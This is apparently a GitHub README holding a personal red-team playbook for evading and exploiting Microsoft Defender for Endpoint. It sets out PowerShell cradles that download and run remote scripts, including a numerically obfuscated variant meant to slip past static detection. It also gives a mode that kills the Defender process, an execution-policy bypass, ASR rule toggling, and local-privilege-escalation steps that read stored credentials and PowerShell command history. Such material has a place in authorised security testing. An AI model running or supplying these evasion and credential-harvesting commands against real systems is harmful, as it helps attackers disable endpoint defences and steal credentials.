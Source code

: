 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    start((Microsoft Defender))
    
    start --> MDEENUM[Enumerate Defender settings]
    MDEENUM --> |fkmde.ps1| MDEVULN[Identify vulnerable configurations]
    MDEENUM --> |Windows UI| MDEVULN
    
    MDEVULN --> MDEVULNASR[ASR rules]
    MDEVULNASR --> |officemacro32.docm| MDEASREXP[Exploit ASR misconfiguration]
    MDEVULNASR --> |wmiprocess.ps1| MDEASREXP
    
    MDEVULN --> MDEEXCLUSION[Defender exclusions]
    MDEEXCLUSION --> |fkmde.ps1| EXPLOITEXCL[Exploit exclusions]
    MDEEXCLUSION --> |fkmde.ps1 --enum| EXPLOITEXCL[Exploit exclusions]
    
    MDEVULN --> MDEMISCONF[Tamper Protection]
    MDEMISCONF --> |fkmde.ps1 --kill| MDEKILL[Kill Defender process]
    
    start --> MDEBYPASS[Attempt to bypass static Defender]
    MDEBYPASS --> |ps1-obfuscator.ps1| MDEBYPASS2[Bypass Defender]
    
    start --> MDESSCR[Review Smart Screen settings]
    MDESSCR --> |Test with URL| MDESSCRVULN[Exploit vulnerable Smart Screen]


```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)
* [Ideas for LPE](#Ideas-for-LPE)

## Enumeration of MDE
### Defender for Endpoint

[fkmde.ps1]([https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1](https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1)) can be run with multiple parameters and modes to suit different use cases and operational environments. Below are the key execution types and their respective usage examples, each catering to specific functionality and user requirements.

  ```powershell
  // basic method with iex
  Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')

  // parameterized mode with iex and irm
  Invoke-Expression "& { $(Invoke-RestMethod https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1) } --enum C:\Windows 3"

  // obfuscated execution with ps1-obfuscator seen in the wild
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"

  // bypass execution (this will get flagged in Defender as Medium Incident - Multi-stage incident involving Execution & Discovery)
  powershell -nop -c "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')"
  ```

> [!NOTE]
> By default, the PowerShell [execution policy](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies) is set to `Restricted` on clients, and `RemoteSigned` on servers, when a new `powershell.exe` process is started. These policies block the execution of (unsigned) scripts, but they can be overriden within the current scope. However, this trick does not work when the execution policy is enforced through a GPO. In this case, after starting a new PowerShell session, you can load the script with the second command.

```powershell
Set-ExecutionPolicy Bypass -Scope Process -Force
Get-Content .\fkmde.ps1 | Out-String | Invoke-Expression
```

## ASR Rules

This section includes Proof of Concepts (PoCs) and scripts to evaluate the effectiveness of ASR rules, which help secure systems by reducing the attack surface for malicious or unauthorized applications.

### officemacro32.docm

**Rules:**
- **d4f940ab-401b-4efc-aadc-ad5f3c50688a**
- **92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b**

  ```console
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```
  
  ![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

> [!NOTE]
> If Microsoft flags the document due to an untrusted source, right-click the document, go to properties, and select the option to trust the source.


### wmiprocess.ps1 

**Rule:**
- **d1e49aac-8f56-4280-b9ba-993a6d77406c**
  
  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
  ```
  
![image](https://github.com/user-attachments/assets/63abd5b5-50a2-4f25-aac4-69691ccd0f8b)
  
## Smart Screen

A collection of Smart Screen test links to evaluate various behaviors, including phishing, malware detection, and exploit blocking.

- [Smart Screen Test](https://commandcontrol.smartscreentestratings.com)
- [Smart Screen Test 2](https://smartscreentestratings2.net)
- [Phishing Test](https://demo.smartscreen.msft.net/phishingdemo.html)
- [Malware Detection](https://demo.smartscreen.msft.net/other/malware.html)
- [Untrusted Download](https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe)
- [Exploit Test](https://demo.smartscreen.msft.net/other/exploit.html)

![image](https://github.com/user-attachments/assets/51b37e58-4553-47c9-b601-fc73f5acf75a)

## Ideas for LPE

The following commands and tools provide potential avenues for exploring local privilege escalation methods. They include registry checks, credential queries, and accessing Windows Subsystem for Linux (WSL) binaries.

```powershell
// password policy
net accounts

cmdkey /list
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT

// privescCheck.ps1
powershell -ep bypass -c "Invoke-Expression -Command (Invoke-RestMethod 'https://raw.githubusercontent.com/itm4n/PrivescCheck/refs/heads/master/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT"
```

Review WSL for permissions and exploits  

```
C:\Windows\System32\bash.exe
C:\Windows\System32\wsl.exe
```

- [RunasCs](https://github.com/antonioCoco/RunasCs)
- [EnableAllTokenPrivs](https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1)
- [GodPotato](https://github.com/BeichenDream/GodPotato)
- [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)

- [Invoke-UAC](https://github.com/BlackShell256/Invoke-UAC)




